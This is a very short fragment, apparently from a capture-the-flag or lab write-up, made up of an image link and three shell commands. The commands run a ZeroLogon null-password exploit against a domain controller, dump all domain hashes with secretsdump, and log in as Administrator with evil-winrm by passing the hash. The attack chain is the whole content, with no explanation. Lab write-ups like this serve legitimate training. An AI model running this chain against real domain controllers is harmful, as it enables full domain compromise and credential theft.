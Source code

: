 ![image](https://user-images.githubusercontent.com/89842187/134415123-b5c8e390-f00b-45e2-ae0d-3b79fa847a1e.png)


```
python3 zeroLogon-NullPass.py DC01 ip
secretsdump.py -just-dc -no-pass DC01\$@10.10.109.102 
evil-winrm -u Administrator -H hash -i ip

```














